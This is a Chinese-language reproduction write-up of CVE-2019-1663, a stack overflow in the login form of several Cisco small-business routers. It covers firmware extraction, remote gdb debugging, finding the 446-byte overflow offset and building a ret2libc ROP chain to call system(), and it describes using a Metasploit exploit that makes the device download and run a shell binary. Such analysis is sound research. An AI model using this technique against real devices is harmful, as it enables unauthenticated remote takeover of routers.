# （CVE-2019-1663）Cisco 堆栈缓冲区溢出漏洞

## 一、漏洞简介

CVE-2019-1663是一个影响Cisco的多个低端设备的堆栈缓冲区，由于管理界面没有对登录表单的pwd字段进行严格的过滤，底层在处理请求时，strcpy函数导致堆栈溢出，未经身份验证的远程攻击者可以在设备上执行任意代码

## 二、漏洞影响

Cisco RV110W <1.2.1.7
Cisco RV130/RV130W < 1.0.3.45
Cisco RV215W <1.3.0.8

## 三、复现过程

### 0x01 固件提取

这里我使用时Cisco RV130W 1.0.3.44进行测试的，binwalk对固件进行提取



可以看出文件系统是squashfs,并且是小端存储方式,得到一个类Linux目录


### 0x02 分析处理请求

使用 grep -r “http”来查找处理http请求的二进制文件



根据之前分析的多个嵌入式设备的经验，猜测这个可能就是处理http请求的底层文件

### 0x03 漏洞分析

对Web登录界面的login.cgi发送如下的POST请求

```
POST /login.cgi HTTP/1.1
Host: 10.10.10.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.2/
Content-Type: application/x-www-form-urlencoded
Content-Length: 137
Connection: close
Upgrade-Insecure-Requests: 1

submit_button=login&submit_type=&gui_action=&wait_time=0&change_action=&enc=1&user=cisco&pwd=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&sel_lang=EN 
```

这里向pwd发送32字节的值，对登录界面的http处理请求在IDA中的是sub_2C614()，地址是0x0002C614



函数将POST请求的参数进行解析，存储到.bss段



然后，将pwd参数的值从.bss段中提取，调用strcpy将值存到动态分配的内存中



对于strcpy我们都很熟悉，它存在的安全问题也十分严峻，并且由于没有开启PIE / ASLR，所以可以随意的进行溢出操作

这里使用gdb进行远程调试，确定能够发生溢出的字节数，首先设置cisco,作为gdb调试的服务端，gdbserver配置

```
# wget http://10.10.10.1:8000/gdbserver //从本机下载到qemu模拟的cisco环境中
#chmod 777 ./gdbserver				  //给权限
# ps -w | grep httpd                   //查找httpd开启的进程号
 2451 0          5472 S   ./usr/sbin/httpd 
 2454 0          1196 S   grep httpd 
# ./gdbserver :1234 --attach 2451      //这里的1234是开启监听的端口号，--attach添加的是httpd的进程号
Attached; pid = 2451
Listening on port 1234
							        //然后成功监听 
```

编译arm-gdb-linux

```
tar xvf gdb-7.8.1.tar.gz
cd gdb-7.8.1
mkdir arm-gdb
sudo chmod 777 arm-gdb
sudo apt-get install texinfo
./configure --target=arm-linux  --prefix=/home/clb/1tools/gdb-7.8.1/arm-gdb
make && make install 
```

然后在arm-gdb下的bin目录中就有用于调试的arm-linux-gdb，配置调试选项

```
./arm-linux-gdb 
gef> set architecture arm   //确定要调试的是arm架构
gef> set follow-fork-mode child  //确定调试的进程
gef> set solib-search-path /home/clb/1iot/firmware/cisco/_RV130.bin.extracted/squashfs-root/lib/ //加载要用到的lib文件
gef> file /home/clb/1iot/firmware/cisco/_RV130.bin.extracted/squashfs-root/usr/sbin/httpd  //加载调试文件
gef> target remote 10.10.10.2:1234  //与远程建立连接 
```

已经建立调试连接，可以进行调试了

查找溢出的位置，使用pattern生成512个字符串

```
gef➤  patter create 512
[+] Generating a pattern of 512 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaaf
[+] Saved as '$_gef0' 
```

通过curl发送POST请求查找溢出的位置

```
gef➤  c
Continuing. `Program received signal SIGSEGV, Segmentation fault.

0x616d6560 in ?? ()` 
```

通过pattern确定溢出的大小

```
gef➤  pattern search 0x616d6561
[+] Searching '0x616d6561'
[+] Found at offset 446 (little-endian search) likely 
```

我们可以确定要进行填充的字符串是有446个字节

这里使用Ret2Libc进行利用。**ret2libc** 这种攻击方式主要是针对 **动态链接(Dynamic linking)** 编译的程序，因为正常情况下是无法在程序中找到像 **system() 、execve()** 这种系统级函数(如果程序中直接包含了这种函数就可以直接控制返回地址指向他们，而不用通过这种麻烦的方式)。因为程序是动态链接生成的，所以在程序运行时会调用 **libc.so (程序被装载时，动态链接器会将程序所有所需的动态链接库加载至进程空间，libc.so 就是其中最基本的一个)**，**libc.so** 是 linux 下 C 语言库中的运行库**glibc** 的动态链接版，并且 **libc**.**so** 中包含了大量的可以利用的函数，包括 **system() 、execve()** 等系统级函数，我们可以通过找到这些函数在内存中的地址覆盖掉返回地址来获得当前进程的控制权。通常情况下，我们会选择执行 **system(“/bin/sh”)** 来打开 shell。这里我们使用vmmap查看调用的lib文件有哪些



注：由于是在模拟器中查找的lib文件的起始地址，所以和在真机中的地址可能不太一样

这里我们选择具有执行权限的libc.so.0文件，使用radare2对libc.so.0文件进行搜索system函数



这里的system函数的地址是偏移地址，偏移地址加上vmmap得到的起始地址就是，我们通过下断点得到system函数的地址，然后通过计算可以发现地址完全正确



这时我们已经知道了一些关键的地址，那么这个时候我们就需要构造一个 ROP链，来实现地址的跳转

这里使用了一款工具Ropper，因为我们存储的位置位于堆栈，所以查找跟堆栈有关的指针SP



这里我选择了0x00041308的指令，因为这里有一个关于指令跳转的指令BLX，如果r2存的值是system的地址，那么我们就能跳到system处，执行系统命令了，并且由于我们的值都存在栈中，所以我们就需要查找和pop,r2有关的指令


在ARM指令集下我们发现两个对r2的操作，但是后面还跟着别的指令，如果我们使用了某一个，那么我们还得继续寻找能够完整构造payload的指令。由于ARM除了有ARM指令外，还有一个Thumb指令集，这个指令是ARM指令集的一个子集，但是在某些方面比ARM指令集要更有效，我们切换指令集去这里看看符合我们要求的指令



这里我们找到了没有其他指令参与并且堆栈操作十分符合我们要求的指令，下面就是我们构造的堆栈的排列方式


首先排布的是target1，这条指令就是对栈就行弹出的操作，首先将system的地址弹出到r2，然后后面无用的地址弹出到r6，最后将target2的地址弹出到r15中，并且r15中存储的还是正在取指的地址。紧接着执行r15所指向的地址，首先将sp的地址存储到r0中，然后执行blx跳转指令并且切换指令集，并且跳转到r2的地址，也就是system的地址，那么这时候就成功执行system函数，到此整个ROP链也就执行完毕

### 0x04 漏洞复现

这里我们利用的是exploit-db上的exp



设置rhosts,lhosts和target，然后直接exploit，就能直接获得shell权限，这里我在vps上执行的





成功执行ifconfig命令

### 0x05 exp脚本分析


这里存储就是偏移地址，libc_base的地址，system的偏移地址，gadget1的偏移地址，gadget2的偏移地址，这些地址就是真机中真正的偏移地址



这里就是根据不同的target生成不同的payload


这里就是我们对Msf生成的payload进行输出，可以看到被攻击的设备下载了可以在ARM平台进行回来的文件，并给与权限并执行，最终创建一个shell

## 参考链接

> [http://lab.xinruisec.com/2019/09/20/CVE-2019-1663-Cisco%E7%9A%84%E5%A4%9A%E4%B8%AA%E4%BD%8E%E7%AB%AF%E8%AE%BE%E5%A4%87%E7%9A%84%E5%A0%86%E6%A0%88%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/](http://lab.xinruisec.com/2019/09/20/CVE-2019-1663-Cisco%E7%9A%84%E5%A4%9A%E4%B8%AA%E4%BD%8E%E7%AB%AF%E8%AE%BE%E5%A4%87%E7%9A%84%E5%A0%86%E6%A0%88%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)